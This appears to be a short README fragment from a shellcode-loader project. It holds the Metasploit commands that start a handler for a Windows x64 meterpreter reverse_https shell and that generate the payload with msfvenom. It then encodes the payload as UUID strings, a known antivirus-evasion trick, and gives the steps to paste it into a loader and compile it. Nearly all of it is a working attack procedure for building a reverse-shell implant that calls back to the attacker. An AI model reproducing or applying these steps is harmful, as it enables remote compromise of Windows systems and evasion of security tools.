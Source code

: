 ```
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST eth0; set LPORT 443; exploit"
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth0 LPORT=443 -f raw -o shell.bin
python3 payload_uuid.py -p shell.bin > shell.txt
```
In notepad++ Ctrl+h in Replace tab add in Find what field ^(.*)$ and in Replace with field "\1",
Remove from the last line the comma.
<br>
<br>
![image](https://github.com/user-attachments/assets/6c6aeb08-b354-4f0a-9e07-7adb1fc12b80)
<br>
<br>
Add the final shellcode to the "Shellcode" variable.
Compile as Release .
<br>
<br>
![image](https://github.com/user-attachments/assets/6c770e2f-f0c7-4a4b-98ab-a6496ead6438)

